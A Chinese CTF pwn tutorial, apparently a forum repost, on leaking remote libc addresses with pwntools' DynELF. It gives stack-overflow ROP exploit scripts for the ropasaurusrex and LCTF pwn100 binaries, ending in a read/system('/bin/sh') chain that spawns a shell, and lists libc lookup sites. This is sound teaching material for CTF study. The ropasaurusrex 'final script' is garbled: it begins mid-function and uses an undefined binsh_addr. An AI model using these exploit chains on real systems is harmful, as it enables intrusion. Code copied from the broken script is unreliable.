## 0x00 DynELF简介

在前面几篇文章中，为了降低难度，很多通过调用库函数system的题目我们实际上都故意留了后门或者提供了目标系统的libc版本。我们知道，不同版本的libc，函数首地址相对于文件开头的偏移和函数间的偏移不一定一致。所以如果题目不提供libc，通过泄露任意一个库函数地址计算出system函数地址的方法就不好使了。这就要求我们想办法获取目标系统的libc。

关于远程获取libc，pwntools在早期版本就提供了一个解决方案——DynELF类。DynELFl的官方文档见此：<http://docs.pwntools.com/en/stable/dynelf.html>，其具体的原理可以参阅文档和源码。简单地说，DynELF通过程序漏洞泄露出任意地址内容，结合ELF文件的结构特征获取对应版本文件并计算比对出目标符号在内存中的地址。DynELF类的使用方法如下：


```python
io = remote(ip, port)
 
def leak(addr):
       payload2leak_addr = “****” + pack(addr) + “****”
       io.send(payload2leak_addr)
       data = io.recv()
       return data
 
d = DynELF(leak, pointer = pointer_into_ELF_file, elf = ELFObject)
system_addr = d.lookup(“system”, libc)
```

使用DynELF时，我们需要使用一个leak函数作为必选参数，指向ELF文件的指针或者使用ELF类加载的目标文件至少提供一个作为可选参数，以初始化一个DynELF类的实例d。然后就可以通过这个实例d的方法lookup来搜寻libc库函数了。其中，leak函数需要使用目标程序本身的漏洞泄露出由DynELF类传入的int型参数addr对应的内存地址中的数据。且由于DynELF会多次调用leak函数，这个函数必须能任意次使用，即不能泄露几个地址之后就导致程序崩溃。由于需要泄露数据，payload中必然包含着打印函数，如write,
puts, printf等，我们根据这些函数的特点将其分成两部分分别进行讲解。


##  0x01 DynELF的使用——write函数

我们先来看比较简单的write函数。write函数的特点在于其输出完全由其参数size决定，只要目标地址可读，size填多少就输出多少，不会受到诸如‘\0’, ‘\n’之类的字符影响。因此leak函数中对数据的读取和处理较为简单。

​        我们开始分析例子~/PlaidCTF 2013 ropasaurusrex/ropasaurusrex.  这个32位程序的结构非常简单，一个有栈溢出的read，一个write。没有libc，got表里没有system，也没有int  80h/syscall





这种情况下我们就可以使用DynELF来leaklibc，进而获取system函数在内存中的地址。

首先我们来构建一个可以泄露任意地址的ROP链。通过测试我们可以知道栈溢出到EIP需要140个字节，因此我们可以构造一个payload如下：


```python
elf = ELF(‘./ropasaurusrex’)         #别忘了在脚本所在目录下放一个程序文件ropasaurusrex
 
write_addr = elf.symbols['write']
 
payload = “A”*140
payload += p32(write_addr)
payload += p32(0)
payload += p32(1)
payload += p32(0x08048000)
payload += p32(8)
```

使用payload打印出ELF文件在内存中的首地址0x08048000，write()运行结束后返回的地址随便填写，编写脚本后发现可以正确输出结果





现在我们需要让这个payload可以被重复使用。首先我们需要改掉write函数返回的地址，以免执行完write之后程序崩溃。那么改成什么好呢？继续改成write是不行的，因为参数显然没办法继续传递。如果使用pop清除栈又会导致栈顶下降，多执行几次就会耗尽栈空间。这里我们可以把返回地址改成start段的地址





这段代码是编译器添加的，用于初始化程序的运行环境后，执行完相应的代码后会跳转到程序的入口函数main运行程序代码。因此，在执行完write函数泄露数据后，我们可以返回到这里刷新一遍程序的环境，相当于是重新执行了一遍程序。现在的payload封装成leak函数如下：


```python
def leak(addr):
       payload = ''
       payload += 'A'*140                   #padding
       payload += p32(write_addr)      #调用write
       payload += p32(start_addr) #write返回到start
       payload += p32(1)                    #write第一个参数fd
       payload += p32(addr)        #write第二个参数buf
       payload += p32(8)                    #write第三个参数size
       io.sendline(payload)
       content = io.recv()[:8]
       print("%#x -> %s" %(addr, (content or '').encode('hex')))
       return content
```


我们加了一行print输出leak执行的状态，用于debug。使用DynELF泄露system函数地址，显示如下:




我们可以利用这个DynELF类的实例泄露read函数的真正内存地址，用于读取”/bin/sh”字符串到内存中，以便于执行system(“/bin/sh”)。最终脚本如下：

```python
payload += p32(1)                    #write第一个参数fd
       payload += p32(addr)               #write第二个参数buf
       payload += p32(8)                    #write第三个参数size
       io.sendline(payload)
       content = io.recv()[:8]
       print("%#x -> %s" %(addr, (content or '').encode('hex')))
       return content
 
d = DynELF(leak, elf = elf)
system_addr = d.lookup('system', 'libc')
read_addr = d.lookup('read', 'libc')
 
log.info("system_addr = %#x", system_addr)
log.info("read_addr = %#x", read_addr)
 
payload = ''
payload += 'A'*140                          #padding
payload += p32(read_addr)              #调用read
payload += p32(system_addr)          #read返回到system
payload += p32(0)                           #read第一个参数fd/system返回地址，无意义
payload += p32(binsh_addr)             #read第二个参数buf/system第一个参数
payload += p32(8)                           #read第三个参数size
 
io.sendline(payload)
io.sendline('/bin/sh\x00')
io.interactive()
```


## 0x02 DynELF的使用——其他输出函数


除了“好说话”的write函数之外，一些专门由于处理字符串输出的函数也经常出现在各类CTF pwn题目中，比如printf, puts等。这类函数的特点是会被特殊字符影响，因此存在输出长度不固定的问题。针对这种函数，我们可以参考这篇博文：<https://www.anquanke.com/post/id/85129> 对leak函数的接收输出部分进行调整。我们看一下例子~/LCTF 2016-pwn100/pwn100，其漏洞出现在sub_40068E()中。







很明显的栈溢出漏洞。

这个程序比较麻烦的一点在于它是个64位程序，且找不到可以修改rdx的gadget，因此在这里我们就可以用到之前的文章中提到的万能gadgets进行函数调用。

首先我们来构造一个leak函数。通过对代码的分析我们发现程序中可以用来泄露信息的函数只有一个puts，已知栈溢出到rip需要72个字节，我们很快就可以写出一个尝试泄露的脚本：


```python
from pwn import *
 
io = remote("172.17.0.3", 10001)
elf = ELF("./pwn100")
 
puts_addr = elf.plt['puts']
pop_rdi = 0x400763
 
payload = "A" *72
payload += p64(pop_rdi)
payload += p64(0x400000)
payload += p64(puts_addr)
payload = payload.ljust(200, "B")
io.send(payload)
print io.recv()
```




由于实际上栈溢出漏洞需要执行完puts(“bye~”)之后才会被触发，输出对应地址的数据，因此我们需要去掉前面的字符，所以可以写leak函数如下：


```python
start_addr = 0x400550
pop_rdi = 0x400763
puts_addr = elf.plt['puts']
 
def leak(addr):
       payload = "A" *72
       payload += p64(pop_rdi)
       payload += p64(addr)
       payload += p64(puts_addr)
       payload += p64(start_addr)
       payload = payload.ljust(200, "B")
       io.send(payload)
       content = io.recv()[5:]
       log.info("%#x => %s" % (addr, (content or '').encode('hex')))
       return content
```


我们将其扩展成一个脚本并执行，却发现leak出错了。




通过查看输出的leak结果我们可以发现有大量的地址输出处理之后都是0x0a，即一个回车符。从Traceback上看，最根本原因是读取数据错误。这是因为puts()的输出是不受控的，作为一个字符串输出函数，它默认把字符’\x00’作为字符串结尾，从而截断了输出。因此，我们可以根据上述博文修改leak函数:


```python
def leak(addr):
       count = 0
       up = ''
       content = ''
       payload = 'A'*72                        #padding
       payload += p64(pop_rdi)                  #给puts()赋值
       payload += p64(addr)               #leak函数的参数addr
       payload += p64(puts_addr)        #调用puts()函数
       payload += p64(start_addr)       #跳转到start，恢复栈
       payload = payload.ljust(200, 'B') #padding
       io.send(payload)
       io.recvuntil("bye~\n")
       while True:                                                      #无限循环读取，防止recv()读取输出不全
              c = io.recv(numb=1, timeout=0.1)     #每次读取一个字节，设置超时时间确保没有遗漏
              count += 1                                            
              if up == '\n' and c == "":                  #上一个字符是回车且读不到其他字符，说明读完了
                     content = content[:-1]+'\x00'    #最后一个字符置为\x00
                     break
              else:
                     content += c #拼接输出
                     up = c    #保存最后一个字符
       content = content[:4]   #截取输出的一段作为返回值，提供给DynELF处理
       log.info("%#x => %s" % (addr, (content or '').encode('hex')))
       return content
```

脚本全部内容位于~/LCTF2016-pwn100/exp.py，此处不再赘述。


## 0x03其他获取libc的方法

 虽然DynELF是一个dump利器，但是有时候我们也会碰到一些令人尴尬的意外情况，比如写不出来leak函数，下libc被墙等等。这一节我们来介绍一些可行的解决方案。

首先要介绍的是[libcdb.com](https://bbs.ichunqiu.com/libcdb.com)，这是一个用来在线查询libc版本的网站。





从它的界面我们可以看出来，这个网站的使用相当简单，只需要我们泄露出两个函数的内存地址。只要程序存在可以用来泄露内存的漏洞。不过尴尬的是libcdb.com里好像搜不到我们用的Ubuntu.17.04里面的libc，所以在这里就不做演示了。

第二个推荐的网站是<https://libc.blukat.me>。这个网站同样可以通过泄露的地址来查询libc。我们通过给出__libc_start_main和read的地址后三位可以查到libc版本



并且查询结果还以__libc_start_main为基准给出了常用符号和所有符号的偏移。


 

第三个推荐的方法是在比赛中使用其他题目的libc。如果一个题目无法获取到libc，通常可以尝试一下使用其他题目获取到的libc做题，有时候可能所有同平台的题目都部署在同一个版本的系统中。


https://bbs.ichunqiu.com/thread-42933-1-1.html